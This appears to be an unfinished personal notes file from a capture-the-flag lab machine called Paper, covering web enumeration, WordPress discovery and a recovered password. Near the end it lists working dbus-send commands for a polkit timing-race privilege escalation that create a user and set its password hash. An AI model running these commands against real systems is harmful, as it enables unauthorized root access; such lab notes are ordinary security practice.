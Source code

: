 # <span style="color:#CC6699">Machine #19 (Active) Paper</span>  


## <span style="color:#CC6699">Notes During Working on the Machine 🧐🤓   

* Found this in the headers of the response of the http and https. Seems interesting  
  ```
  Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
  ```  
* In the body there's this tag that had the following  
  ```html
   <meta name="generator" content="HTML Tidy for HTML5 for Linux version 5.7.28">
  ```  
* What is HTML Tidy and is it relevant? Doesn't seem like it's much  

* Based on Wappalyzer's results the web server is Apache.

* Research fastcgi.
* `gobuster dir -u 10.10.11.143 -x php,cgi,txt,html,md -w ./apache.fuzz.txt -b '404,403,400' -o apache.output.fuzz.txt`
* I think I'm gonna go back to it later.
* The cgi seems like the right path. I think.
* Quoted from Apache's documentation 
  <blockquote>
  It is favored by the PHP developers
  </blockquote>  
  This means that it's a high probability that the backend is written in php.

* I tried an apache exploit for cgi-bin it returned 404 but what was interesting is the `X-Backend-Server` header in the response   
  ```
  HTTP/1.1 404 Not Found
  Date: Fri, 11 Mar 2022 10:41:51 GMT
  Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
  X-Backend-Server: office.paper //I'm thinking this could be a virtual host of some kind
  Content-Length: 196
  Content-Type: text/html; charset=iso-8859-1
  ```  

* Turns out it is some kind of a virtual host and when I opened `http://office.paper` I got another response but the `https` didn't give me anything.
* The website seems to be using REST APIs. What made me think this is the structure of the url `http://office.paper/index.php/2021/06/19/feeling-alone/`  

* So nick is revealing more than he should  
  <img src="./nick.png">  

* So it seems like the website is using *Wordpress* and it's written in *php*.
* `prisonmike` seems like he is the only user that can login. It's not working as the username for the wordpress login
* Seems like the user `nick` exists  
  <img src="./nick_login.png">

* Found this path in source code `http://office.paper/wp-content/uploads/2021/06/Dunder_Mifflin_Inc-150x150.png` for an image it might be useful.  
* Found Wordpress version  
  ```html
  <!-- generator="WordPress/5.2.3" -->
  ```  
* Found this subdomain `http://chat.office.paper/home` and a draft that I found by using an exploit I found for the specific wordpress version we have.  
* Found a bot that I can ask to list files on the system. I can cat the files only.
* `gobuster dns -d office.paper -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt`  

* Queenofblad3s!23

* dwightschrute

<br/><br/>

time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1



dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.031s ; kill $!


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$7Bmgdl.nOd4aCvZT$aJYFtjdy7Q1k4nj4BYOmkLJwy9LRyHKANHlGwDtXgz2' string:GoldenEye & sleep 0.037s ; kill $!

dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$Fv2PqfurMmI879J7$ALSJ.w4KTP.mHrHxM2FYV3ueSipCf/QSfQUlATmWuuB' string:GoldenEye & sleep 0.004s ; kill $!


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$DZLSLHAIcAsGYarl$J31FNwHG4ZOf7hu0.LmuX13.y1xl9xz8HnySsPaMaK7' string:GoldenEye & sleep 0.035s ; kill $!

$5$1dKf1P7dhcB2i1QA$PQJrOE013sKIrqLOaWbdPTWpFFW0qhJV2f4ckr0WM28

## <span style="color:#CC6699">How Did I Solve the Machine 😎🥳 


<br/><br/>



## <span style="color:#CC6699">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:#CC6699">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:#CC6699">Writeups ✍🏽📓   


<br/><br/>




<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->